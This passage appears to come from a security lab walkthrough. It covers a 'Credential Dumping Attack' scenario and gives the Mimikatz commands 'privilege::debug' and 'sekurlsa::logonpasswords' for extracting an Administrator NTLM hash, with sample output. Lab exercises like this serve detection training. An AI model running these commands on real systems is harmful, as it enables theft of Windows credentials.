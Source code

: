 **Example Output:**

```
SHA256: 8A3CD3CF2249E9971806B15C75A892E6A44CCA5FF5EA5CA89FDA951CD2C09AA9
```

### Scenario 3: Credential Dumping Attack

**Objective:** Replicate the Credential Dumping attack and provide the NTLM hash of the Administrator user.

**Tools Required:**

- `C:\Tools\Sysmon`
- `C:\Tools\Mimikatz`

#### Steps:

1. **Change Directory:**

   - Open PowerShell and navigate to the Mimikatz tool directory:
     ```powershell
     cd C:\Tools\Mimikatz
     ```

2. **Run the Agent:**

   - Execute `AgentEXE.exe`:
     ```powershell
     .\AgentEXE.exe
     ```

3. **Use Mimikatz:**

   - Open Mimikatz and run the following commands:
     ```powershell
     # mimikatz
     privilege::debug
     sekurlsa::logonpasswords
     ```

4. **Extract NTLM Hash:**
   - Look for the NTLM hash of the Administrator user in the output.

**Example Output:**

```
NTLM: 5e4ffd54b3849aa720ed39f50185e533
```
